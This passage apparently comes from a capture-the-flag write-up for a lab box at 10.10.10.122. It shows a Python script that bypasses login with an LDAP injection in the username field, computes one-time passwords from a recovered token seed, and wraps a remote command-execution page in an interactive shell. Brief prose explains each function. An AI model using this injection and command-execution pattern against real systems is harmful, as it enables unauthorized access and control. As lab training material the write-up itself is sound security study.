      15         super().__init__()
     16         self.interval = 1.3
     17         self.seed = '285449490011357156531651545652335570713167411445727140604172141456711102716717000'
     18         self.s = requests.session()
     19         if proxy: self.s.proxies = proxy
     20         
     21         # Get Time From Box
     22         r = self.s.get('http://10.10.10.122/login.php')
     23         local = time.gmtime()
     24         server = time.strptime(r.headers['Date'], "%a, %d %b %Y %H:%M:%S %Z")
     25         self.offset = time.mktime(local) - time.mktime(server)
     26         
     27         # Login
     28         self.s.post('http://10.10.10.122/login.php',
     29                 data = {"inputUsername": "ldapuser%29%29%29%00",
     30                         "inputOTP": self.get_otp()})
     31                         
     32 
     33     def get_otp(self):
     34         process = Popen(['stoken', f'--token={self.seed}', f'--use-time=-{self.offset}', '--pin=0000'],
     35                 stdout=PIPE)
     36         out,err = process.communicate()
     37         return out.decode().strip()
     38         
     39 
     40     def default(self, cmd):
     41         resp = self.s.post('http://10.10.10.122/page.php',
     42                 data = {"inputCmd": cmd, "inputOTP": self.get_otp()})
     43         result = re.findall(r'<pre>(.*)</pre>', resp.text, re.DOTALL)
     44         if len(result) > 0:
     45             print(result[0].rstrip())
     46             
     47 term = CTF_TERM(proxy={"http":"http://127.0.0.1:8080"})
     48 try: 
     49     term.cmdloop()
     50 except KeyboardInterrupt:
     51     print()



The terminal class has 3 functions:

-   `__init__` - Initialized variables, gets time for OTP, and logs into
    the webpage to get access to the `page.php` page. The time is a bit
    weird, since timezones are a huge pain in python. If this doesn't
    work, try messing with that offset.
-   `get_otp` - Returns the current otp value.
-   `default` - When I get the prompt, this will run for anything I
    enter. It takes the commands and submits them via the webpage to the
    host to be run.
